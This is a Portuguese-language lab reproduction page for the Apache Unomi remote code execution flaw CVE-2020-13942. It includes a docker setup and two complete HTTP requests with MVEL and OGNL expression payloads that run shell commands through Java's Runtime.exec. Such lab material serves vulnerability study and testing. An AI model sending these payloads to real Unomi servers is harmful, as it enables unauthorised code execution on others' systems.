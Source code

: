 # Apache Unomi Remote Express Language Code Execution (CVE-2020-13942)

Apache Unomi é uma plataforma de dados de clientes Java Open Source, um servidor Java projetado para gerenciar clientes, leads e dados de visitantes e ajudar a personalizar as experiências dos clientes.

Nas versões anteriores a 1.5.1, o Apache Unomi permitia que atacantes remotos enviassem solicitações maliciosas com expressões MVEL e OGNL que poderiam conter classes arbitrárias, resultando em Remote Code Execution (RCE) com os privilégios do aplicativo Unomi.

## Configuração do ambiente

Execute os seguintes comandos para iniciar um servidor Apache Unomi 1.5.1:

```
docker-compose up -d
```

Após o ambiente ser iniciado, você pode acessar a API do Unomi através de `http://your-ip:8181` ou `https://your-ip:9443`.

## Reprodução de vulnerabilidade

A vulnerabilidade pode ser acionada por meio das portas 8181 e 9443.

Execute comandos arbitrários por meio de expressões MVEL:

```
POST /context.json HTTP/1.1
Host: localhost:8181
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 483

{
    "filters": [
        {
            "id": "sample",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\"touch /tmp/mvel\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "sample"
}
```

Execute comandos arbitrários por meio de expressões OGNL:

```
POST /context.json HTTP/1.1
Host: localhost:8181
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 1064

{
  "personalizations":[
    {
      "id":"gender-test",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"touch /tmp/ognl\"))",
                  "comparisonOperator":"equals",
                  "propertyValue":"male"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
  ],
  "sessionId":"sample"
}
```

Entre no container Docker, você pode ver que o comando foi executado com sucesso:

![](1.png)
